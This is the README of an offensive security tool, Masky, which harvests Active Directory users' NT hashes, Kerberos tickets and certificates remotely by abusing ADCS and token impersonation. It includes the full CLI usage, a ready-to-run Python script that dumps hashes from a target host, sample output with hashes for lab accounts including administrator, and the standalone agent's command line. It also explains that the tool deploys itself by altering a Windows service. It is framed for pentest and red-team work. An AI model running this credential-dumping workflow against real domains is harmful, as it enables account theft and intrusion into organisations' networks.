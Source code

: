 # Masky

[![PyPI version](https://badge.fury.io/py/masky.svg)](https://badge.fury.io/py/masky)
[![Twitter](https://img.shields.io/twitter/follow/_ZakSec?label=Zak&style=social)](https://twitter.com/intent/follow?screen_name=_ZakSec)

Masky is a python library providing an alternative way to remotely dump domain users' credentials thanks to an ADCS. A command line tool has been built on top of this library in order to easily gather PFX, NT hashes and TGT on a larger scope.

This tool does not exploit any new vulnerability and does not work by dumping the LSASS process memory. Indeed, it only takes advantage of legitimate Windows and Active Directory features (token impersonation, certificate authentication via kerberos & NT hashes retrieval via PKINIT). A [blog post](https://z4ksec.github.io/posts/masky-release-v0.0.3/) was published to detail the implemented technics and how Masky works.

Masky source code is largely based on the amazing [Certify](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) tools. I really thanks their authors for the researches regarding offensive exploitation technics against ADCS (see. [Acknowledgments section](#acknowledgments)). 

## Installation

Masky python3 library and its associated CLI can be simply installed via the public PyPi repository as following:
```
pip install masky
```

The Masky agent executable is already included within the PyPi package.

Moreover, if you need to modify the agent, the C# code can be recompiled via a Visual Studio project located in `agent/Masky.sln`. It would requires `.NET Framework 4` to be built.

## Usage

Masky has been designed as a Python library. Moreover, a command line interface was created on top of it to ease its usage during pentest or RedTeam activities.

For both usages, you need first to retrieve the FQDN of a `CA server` and its `CA name` deployed via an ADCS. This information can be easily retrieved via the `certipy find` option or via the Microsoft built-in `certutil.exe` tool. Make sure that the default `User` template is enabled on the targeted CA.

Warning: Masky deploys an executable on each target via a modification of the existing `RasAuto` service. Despite the automated roll-back of its initial `ImagePath` value, an unexpected error during Masky runtime could skip the cleanup phase. Therefore, do not forget to manually reset the original value in case of such unwanted stop.

### Command line

The following demo shows a basic usage of Masky by targeting 4 remote systems. Its execution allows to collect NT hashes, CCACHE and PFX of 3 distinct domain users from the sec.lab testing domain.

<p align="center">
  <img src="./assets/masky_demo.gif" alt="Masky CLI demo" />
</p>


Masky also provides options that are commonly provided by such tools (thread number, authentication mode, targets loaded from files, etc. ).

```
  __  __           _
 |  \/  | __ _ ___| | ___   _
 | |\/| |/ _` / __| |/ / | | |
 | |  | | (_| \__ \   <| |_| |
 |_|  |_|\__,_|___/_|\_\__,  |
  v0.0.3                 |___/

usage: Masky [-h] [-v] [-ts] [-t THREADS] [-d DOMAIN] [-u USER] [-p PASSWORD] [-k] [-H HASHES] [-dc-ip ip address] -ca CERTIFICATE_AUTHORITY [-nh] [-nt] [-np] [-o OUTPUT]
             [targets ...]

positional arguments:
  targets               Targets in CIDR, hostname and IP formats are accepted, from a file or not

options:
  -h, --help            show this help message and exit
  -v, --verbose         Enable debugging messages
  -ts, --timestamps     Display timestamps for each log
  -t THREADS, --threads THREADS
                        Threadpool size (max 15)

Authentication:
  -d DOMAIN, --domain DOMAIN
                        Domain name to authenticate to
  -u USER, --user USER  Username to authenticate with
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters.
  -H HASHES, --hashes HASHES
                        Hashes to authenticate with (LM:NT, :NT or :LM)

Connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ca CERTIFICATE_AUTHORITY, --certificate-authority CERTIFICATE_AUTHORITY
                        Certificate Authority Name (SERVER\CA_NAME)

Results:
  -nh, --no-hash        Do not request NT hashes
  -nt, --no-ccache      Do not save ccache files
  -np, --no-pfx         Do not save pfx files
  -o OUTPUT, --output OUTPUT
                        Local path to a folder where Masky results will be stored (automatically creates the folder if it does not exit)
```

### Python library

Below is a simple script using the Masky library to collect secrets of running domain user sessions from a remote target.

```python
from masky import Masky
from getpass import getpass


def dump_nt_hashes():
    # Define the authentication parameters
    ca = "srv-01.sec.lab\sec-SRV-01-CA"
    dc_ip = "192.168.23.148"
    domain = "sec.lab"
    user = "askywalker"
    password = getpass()

    # Create a Masky instance with these credentials
    m = Masky(ca=ca, user=user, dc_ip=dc_ip, domain=domain, password=password)

    # Set a target and run Masky against it
    target = "192.168.23.130"
    rslts = m.run(target)

    # Check if Masky successfully hijacked at least a user session
    # or if an unexpected error occurred
    if not rslts:
        return False

    # Loop on MaskyResult object to display hijacked users and to retrieve their NT hashes
    print(f"Results from hostname: {rslts.hostname}")
    for user in rslts.users:
        print(f"\t - {user.domain}\{user.name} - {user.nt_hash}")

    return True


if __name__ == "__main__":
    dump_nt_hashes()
```

Its execution generate the following output.

```
$> python3 .\masky_demo.py
Password:
Results from hostname: SRV-01
         - sec\hsolo - 05ff4b2d523bc5c21e195e9851e2b157
         - sec\askywalker - 8928e0723012a8471c0084149c4e23b1
         - sec\administrator - 4f1c6b554bb79e2ce91e012ffbe6988a
```

A `MaskyResults` object containing a list of `User` objects is returned after a successful execution of Masky. 

Please look at the `masky\lib\results.py` module to check the methods and attributes provided by these two classes.

### Standalone Masky agent

From the Masky version 0.0.5, the standalone executable agent can now easily be ran without the Python CLI.

Here are the arguments:
```
$> .\Masky.exe /ca:'CA SERVER\CA NAME' (/template:User) (/currentUser) (/output:./output.txt) (/debug:./debug.txt)
```

The `/ca` parameter is mandatory as for the Python CLI. Moreover, the `/currentUser` argument has been added to avoir running token impersonation. Indeed, a simple certificate request will be performed in the current user context, based on the provided template (`template`). The `/output` and `/debug` parameters allow to specify the path where will be created the files.

The default values are the following:
- currentUser: false (aka. impersonation is enabled);
- template: User;
- output: ./Masky_results.txt
- debug: ./Masky_debug.txt

<p align="center">
  <img src="./assets/masky_agent_standalone.png" alt="Masky standalone agent demo" />
</p>

## Acknowledgments

- [Olivier Lyak](https://twitter.com/ly4k_) for the [Certipy](https://github.com/ly4k/Certipy) tool and the [associated articles](https://medium.com/@oliverlyak)
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for the [Certify](https://github.com/GhostPack/Certify) tool and the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) article
- [Dirk-jan](https://twitter.com/_dirkjan) for the [PKINITtools](https://github.com/dirkjanm/PKINITtools) and its [ADCS NTLM relay](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) article
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and the associated contributors for the [Impacket](https://github.com/SecureAuthCorp/impacket) library
- [Pixis](https://twitter.com/HackAndDo) for the tool [Lsassy](https://github.com/Hackndo/Lsassy)
- Incognito tool and its [Metasploit implementation](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/incognito/)
- [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) for the tool [SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation) and the [associated article](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- McAfee for their article regarding the [token impersonation techniques](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)
